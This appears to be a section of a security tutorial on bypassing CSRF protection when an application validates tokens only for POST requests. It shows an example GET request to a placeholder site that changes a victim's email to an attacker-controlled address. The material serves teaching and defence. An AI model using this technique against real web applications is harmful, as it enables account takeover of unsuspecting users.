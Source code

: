 # 9. Validation of CSRF token depends on request method

🔍 Some applications correctly validate the CSRF token when the request uses the **POST method**, but **skip the validation** when the **GET method** is used.

🚨 In this situation, an attacker can **switch to the GET method** to bypass the validation and successfully deliver a **CSRF attack**.

### 💥 **Example Exploit Using GET Method**

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

🧨 The lack of CSRF validation on GET requests allows the attacker to make unauthorized changes using a simple URL.